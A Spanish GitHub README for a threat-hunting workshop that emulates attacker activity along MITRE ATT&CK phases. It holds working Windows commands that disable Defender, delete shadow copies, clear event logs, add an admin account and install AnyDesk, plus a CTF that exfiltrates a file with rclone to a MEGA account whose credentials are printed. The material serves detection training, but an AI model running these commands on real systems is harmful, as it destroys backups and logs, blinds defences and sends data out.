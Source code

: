 # Workshop-CERT-2024
Este repositorio contiene un conjunto de Scripts para Emular ataques avanzados operados por Humano.

<center>

# **HACKING PLAYBOOK**
> Guia Para Hackers:

|Elaborado por|
|-|
|Marvin Amador|
|Threat Hunter|
 </center>

## Manual de Ataques:

- [x] Generar Rastros de un Ataque
	- [ ] EXECUTION
	- [ ] PERSISTENCE
	- [ ] PRIVILEGE ESCALATION
	- [ ] DEFENSE EVASION
	- [ ] DISCOVERY
	- [ ] COMMAND AND CONTROL
- [x] Capture The Flags
	- [ ] EXFILTRATION

## Objetivo

|Ejecutar comandos comunmente utilizados por atacantes en cada fase de la Matriz de Mitre Att&ck, esto le  permitirá al Hunter saber que es lo que debe Cazar. Por último, hay un CTF diseñado para que el Hunter comprenda como se vería un evento de Exfiltración de Datos. 
|-|

==**NOTA IMPORTANTE**:==
- La ejecución de los comandos se realiza desde el CMD. Únicaente algunos se realizan desde PowerShell y en cada sección está descrito. 
- Se recomienda que el Hunter ejecute todos los comandos de una sola vez y luego inicie la cacería en Elastic Cloud. Duración 10 min 
- Dejar para el final el CTF. 

# **LABORATORIO**

1. **EXECUTION**
- Técnica: **Scheduled Task (T1053)**
Este comando crea una tarea programada llamada "**Workshop Task 2024**" que ejecutará la calculadora de Windows diariamente a las 10:20 AM.
```
schtasks /create /tn "Workshop Task 2024" /tr "C:\Windows\System32\calc.exe" /sc daily /st 10:20
```

2. **PERSISTENCE**
- Técnica: **Registry Run Keys / Start Folder (T1060)**
Este comando agrega una entrada al Registro que ejecutará la calculadora de Windows al inicio del usuario actual.
```
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v "Workshop registry 2024" /t REG_SZ /d "C:\Windows\System32\calc.exe" /f
```

3. **PRIVILEGE ESCALATION**
Enumerar los miembros del grupo de administradores local es relevante para la fase de elevación de privilegios, ya que proporciona información sobre cuentas con privilegios elevados.
```
net user certuser Sisap2024 /add
net localgroup administrators certuser /add
```

4. **DEFENSE EVASION**
- Técnica: **Disable or Modify Tools (T1562.001)**
==Desactivacion de AV==
```
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName,productState /format:list
```
==**Ejecutar desde PowerShell:**==
```
Set-MpPreference -DisableRealtimeMonitoring $true
```
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force
```

- Técnica: **Data Destruction (T1485)**
```
WMIC.exe shadowcopy delete /nointeractive
vssadmin.exe delete shadows /all /quiet
```

- Técnica: **Clear Windows Event Logs (T1070.001)**
```
wevtutil cl system
wevtutil clear-log application
wevtutil clear-log security
wevtutil clear-log setup

```

5. **DISCOVERY**
Estos comandos proporcionan información sobre usuarios, grupos, unidades compartidas y controladores de dominio, y podrían ser parte de la fase de descubrimiento, donde un atacante busca comprender la topología del sistema y sus privilegios.
- Técnica: **System Information Discovery (T1082)**
Estos comandos se utilizan para obtener información sobre la identidad del usuario y los grupos a los que pertenece. Utiliza WMIC para obtener información sobre las unidades lógicas en el sistema
```
whoami
whoami /groups
systeminfo
wmic logicaldisk get name
```

- Técnica: **System Network Configuration Discovery (T1016)**
Estos comandos se utilizan para obtener información sobre la configuración de red en un sistema Windows.
```
ipconfig
arp -a
```
- Técnica: **Permission Groups Discovery (T1069)**
Enumera los miembros del grupo local de administradores, proporcionando información sobre cuentas con privilegios elevados.
```
net localgroup administrators
```

Enumera los miembros de grupos importantes como "Domain Admins" y "Enterprise Admins".
```
net group /domain "Domain Admins"
net group "Enterprise Admins" /domain
```
- Técnica: **Active Directory Reconnaissance (T1018)**
Estos comandos se utilizan para obtener información sobre el entorno de Active Directory, incluyendo controladores de dominio y confianzas de dominio.
```
nltest /dclist:windomain.local
nltest /domain_trusts
```
- Técnica: **Network Share Discovery (T1135)**
Muestra información sobre las comparticiones de red en el sistema.
```
net share
```

- Técnica: **System Owner/User Discovery (T1033)**
Muestra una lista de unidades disponibles en el sistema.
```
fsutil fsinfo drives
```

5. **COMMAND AND CONTROL**
- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.
==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk
Invoke-WebRequest -Uri 'https://download.anydesk.com/AnyDesk.exe' -OutFile 'C:\Windows\Temp\AnyDesk.exe'

# Instalar AnyDesk silenciosamente
Start-Process -Wait -FilePath 'C:\Windows\Temp\AnyDesk.exe' -ArgumentList '/S'
```

# **CAPTURE DE FLAG**

---
El Desafio Final del Workshop es aprender como los Adversarios roban información utilizando la herramienta **rclone**. Para esto, el hunter deberá realizar 2 actividades:
- Utilizar Rclone para exfiltrar un archivo de texto con el nombre del hunter
- Demostrar el evento en la consola de Elastic Cloud
---
## 6. **EXFILTRATION** 

- Técnica: **Remote Access Software (T1219)**
Algunos atacantes utilizan herramientas de supervisión y administración remotas (RMM) como Anydesk, Atera, Splashtop, TeamViewer, ScreenConnect, LogMeIn, entre otras, para controlar remotamente a su víctima.

==**Ejecutar desde PowerShell:**==
```
# Descargar el instalador de AnyDesk y configuralo
Invoke-WebRequest https://downloads.rclone.org/v1.56.0/rclone-v1.56.0-windows-amd64.zip -OutFile 'C:\Windows\Temp\rclone.zip'
Expand-Archive -Path 'C:\Windows\Temp\rclone.zip' -DestinationPath 'C:\Windows\Temp\'
cd C:\Windows\Temp\rclone-v1.56.0-windows-amd64
.\rclone.exe config

# configurando rclon
n
name: cert
storage: mega
user: huntercert01@gmail.com
password: NaQ@YGls9%cUHMGu
n
y
q
# Creemos un archivo para exfiltrar
echo CTF logrado > marvinamador.txt

# Comando para exfiltrar el archivo creado
.\rclone.exe copy "C:\Windows\Temp\rclone-v1.56.0-windows-amd64\marvinamador.txt" cert: -q --ignore-existing --auto-confirm --multi-thread-streams 12 --transfers 3 --bwlimit 5M

```

<center>
HAPPY HUNTING!
</center>


